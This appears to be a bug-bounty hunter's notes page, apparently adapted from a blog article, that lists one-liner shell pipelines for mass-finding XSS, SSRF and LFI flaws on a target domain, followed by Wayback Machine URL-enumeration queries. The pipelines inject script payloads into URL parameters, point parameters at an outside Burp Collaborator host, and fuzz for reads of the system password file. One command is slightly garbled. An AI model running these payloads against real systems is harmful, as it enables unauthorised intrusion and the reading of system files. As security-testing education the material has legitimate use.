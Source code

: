 _`cat file.txt | gf xss | grep 'source=' | qsreplace '"><script>confirm(1)</script>' | while read host do ; do curl –silent –path-as-is –insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host 33[0;31mVulnerablen";done`_

![None](https://miro.medium.com/v2/resize:fit:700/0*JuzQeoQjapXEzub8)

This command will find **XSS** in the target domain.

![[Pasted image 20250308080223.png]]

### SSRF

Now let's see how we can find **ssrf** using these tools. Here is the command to find SSRF on Target URLs

`findomain -t example.com -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace` [`http://YOUR.burpcollaborator.net`](http://your.burpcollaborator.net/)

![None](https://miro.medium.com/v2/resize:fit:700/0*7LSLH9537j7HcP59)

Here it will Filter the possible parameter of **ssrf** and also will send the request to your collaborator.

### LFI

> _Follow this command to find LFI :_

`findomain -t example.com -q | waybackurls |gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr "root:x" -w ~/wordlist/LFI.txt ; done`

![None](https://miro.medium.com/v2/resize:fit:700/0*6aOM9lF5n5zjLB4Z)



----


![[Pasted image 20241130183555.png]]

---

## For a specific domain

```
https://web.archive.org/cdx/search/cdx?url=bugbountyhunter.xyz/*&output=text&fl=original&collapse=urlkey
```

## For subdomains (wildcard search)

```
https://web.archive.org/cdx/search/cdx?url=*.bugbountyhunter.xyz/*&output=text&fl=original&collapse=urlkey&filter=statuscode:200
```
